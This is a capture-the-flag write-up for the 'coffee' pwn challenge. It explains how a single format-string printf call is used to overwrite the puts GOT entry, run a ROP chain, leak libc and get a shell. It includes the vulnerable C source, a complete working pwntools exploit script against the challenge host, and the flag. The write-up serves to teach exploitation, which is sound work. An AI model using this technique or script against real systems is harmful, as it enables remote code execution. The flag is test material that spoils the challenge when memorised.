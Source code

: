 # coffee

Disclaimer:
I was not able to solve this challenge during the CTF.
The challenge had me frustrated for most of the event due to the restrictions on the format string bug.
I solved it with the help of [moratorium08's writeup](https://hackmd.io/@moratorium08/ryMcaePVY).
I am documenting the solution here because I think it may be a useful resource in the future.

## Challenge

A very simple program with a format string vulnerability.

The program makes it much harder to call `printf` more than once as it checks the value of a global variable, which is set to 0 after the first call.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Source

```c
#include <stdio.h>

int x = 0xc0ffee;
int main(void) {
    char buf[160];
    scanf("%159s", buf);
    if (x == 0xc0ffee) {
        printf(buf);
        x = 0;
    }
    puts("bye");
}
```

## Solution

The restrictions on the `printf` call mean we must set up and execute our ropchain using only the one call.

Since our payload is written to the top of the stack, we can write our ropchain immediately after the format specifiers of our format string payload.
To execute the ropchain, we have to pop all the values of the format string payload to reach the ropchain.
This can be done by overwriting the `puts` GOT entry with the address of the `pop5` gadget.

Once this is overwritten, the first 4 qwords on the stack will be popped and our ropchain starting on `rsp+0x20` will be executed.
From here, we can exploit the program as if we had a regular stack-based buffer overflow vulnerability, by leaking the libc address and calling `system("/bin/sh\x00")`.

However, I found the solution in [moratorium08's writeup](https://hackmd.io/@moratorium08/ryMcaePVY) quite interesting, and used it when writing my own exploit.

The solution does not require another loop through `main` as it uses `scanf` in the ropchain to overwrite the `puts` GOT entry again, after leaking libc.
On this second overwrite, `puts` is replaced with `system`, and the PLT is called after setting registers in order to spawn a shell.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 34.146.101.4 --port 30002 coffee
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('coffee')
libc = ELF('libc.so.6')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '34.146.101.4'
port = int(args.PORT or 30002)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

rop = ROP(exe)

def exec_fmt(payload):
    p = process(exe.path)
    p.sendline(payload)
    return p.recvall()

autofmt = FmtStr(exec_fmt)

str__159s = 0x403004

ropchain = flat({
    0x0: [
        rop.find_gadget(['pop rdi', 'ret'])[0],
        str__159s,
        rop.find_gadget(['pop rsi', 'pop r15', 'ret'])[0],
        exe.got['puts'],
        0,
        rop.find_gadget(['ret'])[0],
        exe.plt['__isoc99_scanf'],
        rop.find_gadget(['pop rdi', 'ret'])[0],
        exe.got['puts'] + 9,
        rop.find_gadget(['ret'])[0],
        exe.plt['puts']
        ],
    })

fmtstr = fmtstr_payload(autofmt.offset + len(ropchain)//8, {
    exe.got["puts"]: rop.find_gadget(['pop rbp', 'pop r12', 'pop r13', 'pop r14', 'pop r15', 'ret'])[0]
    }, write_size='short')

payload = flat({
    0x0: fmtstr[0:0x20-6],
    0x20-6: b'%29$p\x00',
    0x20: [
        ropchain,
        fmtstr[0x20:],
        ],
    })

io.sendline(payload)

io.recvuntil(b'0x')
libc.address = int(io.recv(12), 16) - libc.libc_start_main_return

io.success(hex(libc.address))

io.sendline(pack(libc.sym['system']) + b"//bin/sh\x00")

io.interactive()
```

## Flag

`TSGCTF{Uhouho_gori_gori_pwn}`

